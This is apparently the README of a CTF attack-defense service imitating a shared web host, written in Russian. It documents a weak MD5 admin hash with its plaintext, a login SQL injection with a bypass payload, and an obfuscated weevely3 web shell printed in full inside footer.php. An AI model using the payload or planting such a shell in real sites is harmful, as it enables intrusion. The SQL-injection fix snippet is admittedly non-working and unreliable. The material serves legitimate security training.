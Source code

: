 # "Виртуальный хостинг Змей Горыныч"

## Overview

Сервис представляет собой подобие виртуального хостинга сайтов (shared web hosting)

Условные клиенты разместили три сайта на данном хостинге. В каждом раунде "операторы" оставляют новые заявки клиентов в административной панели,
часть информации которой является флагом. 

Приветствие для участников:
	Приветствуем вас на вашей новой работе, можете гордо называть себя: 
	Администратор виртуального хостинга сайтов "Змей Горыныч".
	В данный момент наш хостинг обработал трех клиентов, обработал - то есть запустил их сайты.
	Основная наша работа - поддерживать их в рабочем состоянии, клиент для нас прежде всего! 

	Сегодня ожидается большое количество заявок от клиентов, мы дали удачную рекламу после ребрендинга, 
	операторы будут вносить их на вторую вкладку сайта. Сами сайты на выходных мы не поднимаем, это в понедельник
	будут делать другие люди.

Для успешной работы чекера вам необходимо держать сайты клиентов в рабочем состоянии, есть возможность включать или выключать их через административную панель (порт 1000)


## Уязвимость 1: weak md5 in database

### Описание:
	В ипортируемой базе данных учетная запись mysql_test содержит слабый хэш md5, который легко пробивается по базам, исходное значение: admin12345
	
	INSERT INTO `admin_panel_users` (`ID`, `user`, `password`) VALUES
	(5, 'mysql_test', '7488e331b8b64e5794da3fa4eb10ad5d');


### FIX:

    Удалить учетную запись или поменять пароль

## Уязвимость 2: SQL injection

### Описание:
	Функция авторизации в административную панель "validate_cred" содержит прямой запрос к базе данных, уязвимый к sql инъекции:
	
	$query2 = "SELECT user, password FROM `admin_panel_users` WHERE user = '".$login."' AND password = '".$password."'";
	$result2 = mysqli_query($link, $query2);
    $COUNT2 = mysqli_num_rows($result2);
	if ($COUNT2 != 1 and $COUNT3 != 1) {
            mysqli_close($link);
            return false;
        }
        else {
            return true;
        }

	Пример вводимых учетных данных для реализации sql инъекции:
	login: old_admin
	password: ' or 1=1 LIMIT 1 -- -


### FIX:
    Необходимо использовать привязку переменных к параметрам подготавливаемого запроса mysqli_stmt_bind_param:

            mysqli_stmt_bind_param($stmt, "ss", $LOGIN, $PASSWORD);  //dont work
            $ip_address  = $_SERVER['HTTP_HOST']; 
            $LOGIN = $login;
            $PASSWORD = $password;
            
            $RESULT = mysqli_stmt_get_result($stmt);
            $COUNT = mysqli_num_rows($RESULT);


## Уязвимость 3: Веб-шелл weevely3 в одном сайте клиентов виртуального хостинга

### Описание:
    В первом сайте (site1) на странице page.html подключаемый footer.php является серверной частью веб-шелла weevely3
    page.html:
        ...
	    <footer class="footer text-center py-2 theme-bg-dark"> 
			<!-- Bootstrap PHP -->
			<?php include 'images/footer.php';?>
	    </footer>
        ...
    footer.php:
        <?php
            $A='?ecode($m]?[1]),$k]?)));$o=]?@ob]?_get_co]?n]?tents();@ob_]?en]?d_clea]?n();$';
            $P='$k="194a]?43aa]?";]?$kh="2]?d18d8fd5]?fb]?7";$kf="c1e0]?8]?2ba23cc";$]?p="p';
            $G=str_replace('XZ','','cXZXZreaXZtXZe_fuXZncXZtion');
            $S='<$l);$j++]?,$i+]?+]?){$o.=$t{$i]?}^$k{$j]?};}}r]?eturn $o]?;}if ]?(@pr]?eg_mat';
            $O='$m)==]?1)]? {@ob_sta]?]?rt()]?;@e]?val(@gzu]?]?ncompress(@x(@ba]?se64_d]';
            $U='r=@base]?6]?4_en]?code(@x(@gzc]?ompres]?s($o)]?,$]?k));print]?("$p$kh]?$r$kf");}';
            $L='LdZAm]?]?eDqdAQo]?03S";]?func]?tion x($t,$k)]?]?{$c=strlen($]?k);$l=st]?';
            $Q='rlen($]?t);$o]?="";]?for($i=]?0]?]?;$i<$]?l;){for($j]?=0]?;($j<$c&&$i';
            $u='ch]?("/$]?kh(.+)$kf]?/]?",@file_ge]?t_]?c]?ontents(]?"php://]?input"),';
            $J=str_replace(']?','',$P.$L.$Q.$S.$u.$O.$A.$U);
            $c=$G('',$J);$c();
        ?>  
    
    Данный веб-шелл использует пароль. Для его получения необходимо деобфусцировать код шелла. 
    Привер деобфускации: https://artikrh.sh/posts/weevely-backdoor-analysis.html
    И далее с помощью клиента weevely3 авторизоваться на странице page.html:
    Формат: weevely ip_address password


### FIX:
    Удалить код веб-шелла со страницы
